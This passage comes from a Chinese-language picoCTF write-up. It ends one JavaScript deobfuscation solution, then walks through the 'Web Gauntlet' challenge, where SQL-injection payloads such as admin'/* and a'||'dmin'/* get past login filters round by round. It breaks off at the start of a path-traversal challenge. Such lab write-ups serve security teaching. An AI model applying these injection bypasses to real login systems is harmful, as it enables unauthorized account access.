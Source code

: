    ```

思路：

1. 调用 `http://www.jsnice.org/` 使 Javascript 代码更具可读性。
2. _0x4b5b是一个用来混淆不同值的函数。它是在运行时计算的。我们可以使用浏览器的 Javascript 控制台（“开发者工具”）来评估_0x4b5b和读取它的值
3. 用硬编码值替换函数调用以提高可读性。
4. 然后对 flag 进行拼接。


## Web Gauntlet

Description：Can you beat the filters? Log in as admin http://jupiter.challenges.picoctf.org:41560/ http://jupiter.challenges.picoctf.org:41560/filter.php

思路：SQL 注入绕过

1. 要通过第一轮，我们可以使用`admin'--`作为用户名，使该子句的其余部分被解释为注释：
    ```sql
    SELECT  *  FROM users WHERE username = ' admin ' -- ' AND password='pass'
    ```

2. 第 2 轮介绍了以下过滤器：
    ```
    Round2: or and like = --
    ```
    我们将尝试不同的评论风格。`#`不起作用，但`/*`起作用，使我们的输入`admin'/*`和我们的完整子句：
    ```sql
    SELECT  *  FROM users WHERE username = ' admin ' /* ' AND password='pass'
    ```
3. 第 3 轮有以下过滤器：
    ```
    Round3：or and = like > < --
    ```
    同样的技巧在这里起作用，使用 `admin'/*`：
    ```sql
    SELECT * FROM users WHERE username='admin'/*' AND password='pass'
    ```
4. 第 4 轮过滤器：
    ```
    第四轮：or and = like > < -- admin
    ```
    我们不能使用 `admin`，所以我们只能通过连接重新创建字符串。`CONCAT` 似乎不起作用，但 `||` 起作用，这一定是 sqlite。
    我们输入 `a'||'dmin'/*` 作为输入并得到：
    ```sql
    SELECT * FROM users WHERE username='a'||'dmin'/*' AND password='pass'
    ```
5. 最后一轮，过滤器是：
    ```
    Round5: or and = like > < -- union admin
    ```
    和以前一样，我们使用 `a'||'dmin'/*` 得到：
    ```sql
    SELECT * FROM users WHERE username='a'||'dmin'/*' AND password='pass'
    ```
6. 最后，查看 `filter.php` 的标志。


## Forbidden Paths
 
Description：Can you get the flag?Here's the website.We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?

   ```